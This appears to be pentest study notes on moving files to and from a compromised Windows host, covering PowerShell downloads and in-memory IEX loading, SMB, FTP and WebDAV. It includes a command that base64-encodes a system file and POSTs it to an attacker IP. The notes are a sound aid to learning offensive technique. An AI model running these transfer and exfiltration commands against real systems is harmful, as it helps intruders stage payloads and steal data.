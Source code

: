
## Download
```powershell-session
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

But to load powershell script directly into memory (and not on disk as above) we have tu use `Invoke-Expression`

```powershell-session
IEX (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
```

From powershell 3.0, a new command is available: `Invoke-WebRequest` (albeit slower)

```powershell
Invoke-WebRequest <url> -OutFile <output> (-UseBasicParsing)
```


### SMB server

We can create a local SMB server from our attack machine to download on the target. Using impacket:
	`impacket-smbserver share -smb2support <path-to-share>`

Then from the windows machine:
		`copy \\<ip>\share\<file>`
Optionnally, we can set a username + password, which may be required due to some Windows Firewall. We then have to mount the share on the windows machine with:
```cmd-session
net use n: \\<ip>\share /user:<username> <password>
```

### FTP

We can also use FTP server to transfer files.
On linux we setup the server with `pyftpdlib` (from pip)

And on the windows machine we use `Net.WebClient`
```powershell-session
(New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'C:\Users\Public\<output-file>')
```


On the low level side, we can also use directly FTP command in a file.
```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```


## Upload

From the target machine to our attack machine, we can do:
```powershell-session
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

Which we can catch using netcat for example


### SMB

As companies usually don't allow outbound SMB traffic, we have to use HTTP (which is usually allowed), [webDAV](https://datatracker.ietf.org/doc/html/rfc4918) (HTTP entension)

On the attack machine, we need to install (pip) wsgidav and cheroot and run (CLI) wsgidav server. Now we can try to connect to the DavWWWRoot (special windows shell keyword) directory:

```cmd-session
dir \\<ip>\DavWWWRoot
```

### FTP

Exaclty similar do download (but use `UploadFile` method)